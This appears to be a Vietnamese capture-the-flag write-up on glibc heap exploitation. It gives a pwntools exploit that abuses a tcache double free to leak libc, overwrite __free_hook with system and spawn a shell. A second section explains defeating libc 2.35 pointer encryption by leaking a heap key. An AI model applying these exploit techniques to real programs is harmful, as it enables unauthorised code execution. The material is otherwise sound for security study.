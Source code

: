 ```
erase()
write(b'b'*0x10)
erase()
read()
bss = 0x404050
write(p64(bss))
buy(0x10, b'a'*0x10)
buy(0x10, p64(0) + p64(bss - 0x10))
read()
ru(b'Content: ')
libc.address = u64(r(6) + b'\x00\x00') - 2020800
log.info(hex(libc.address))

buy(0x10, b'a'*0x10)
erase()
read()
write(b'b'*0x10)
erase()
read()
write(p64(bss))
buy(0x10, b'a'*0x10)
buy(0x10, p64(0) + p64(libc.sym['__free_hook']))
write(p64(libc.sym['system']))
buy(0x10, b'/bin/sh')
erase()

p.interactive()
```

# Double free 2.35

## Phân tích
- Bài này source giống libc 2.23 nên ta sẽ bỏ qua phân tích source
- Ta sẽ vào phân tích heap luôn
![image](https://hackmd.io/_uploads/rJ-4yGC0Jx.png)
- Ta thấy fd chứa 2,5 byte cao vùng heap, sau đó là địa chỉ rác, ta sẽ leak 2,5 byte heap này để có địa chỉ heap
```
buy(0x10, b'a'*0x10)
erase()
read()
ru(b'Content: ')
heap_chunk = (u32(b'\x00' + r(3)) << 4) + 672
log.info(hex(heap_chunk))
```
- Sau đó ta thay đổi 2,5 địa chỉ heap này để có thể free 1 lần nữa, giống bài trên, fd -> fd, tuy nhiên từ libc 2.35 đã có cơ chế mã hóa, nên ta nhìn trên heap nó sẽ khác trong tcachebins
![image](https://hackmd.io/_uploads/H1IWbGRCJl.png)
- heap mã hóa = heap ^ key --> key = heap ^ heap mã hóa
- Ta có thể leak heap mã hóa, heap --> có thể tìm key, sau đó address target mã hóa = address target ^ key
![image](https://hackmd.io/_uploads/Hy9ZMfCA1g.png)
- Sau đó sẽ giống như bài libc 2.23, tuy nhiên trong bài này sau khi ghi system vào __free_hook nhưng khi free vùng chứa địa chỉ chứa chuỗi '/bin/sh' thì không lấy được shell, nên ta sẽ quay xe sang leak stack bằng địa chỉ envion
```
erase()
write(b'c'*0x10)
erase()
write(p64(bss))
```